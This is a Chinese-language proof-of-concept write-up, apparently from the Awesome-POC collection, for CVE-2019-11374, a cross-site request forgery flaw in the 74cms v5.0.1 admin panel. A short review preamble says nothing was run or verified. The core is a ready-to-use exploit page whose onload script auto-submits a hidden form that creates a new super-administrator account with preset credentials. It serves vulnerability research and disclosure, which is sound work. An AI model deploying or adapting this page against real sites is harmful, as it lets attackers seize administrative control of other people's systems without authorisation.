


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：5.0.1; victim admin logged in and opens attacker's page

- **结论使用边界（1）**：Coherent target/action and auto-submit form; the historical third-party domain does not establish current authorization。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（2）**：Browser cookie/SameSite and role preconditions not recorded。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **证据待核（3）**：Source is secondary Awesome-POC without original advisory。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 74cms v5.0.1 后台跨站请求伪造漏洞 CVE-2019-11374

## 漏洞描述

在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。

## 漏洞影响

```
74CMS v5.0.1
```

## 漏洞复现

首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包



当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户



利用exp如下：

```
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0dayhack.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
```


---

> 来源：Threekiii/Awesome-POC
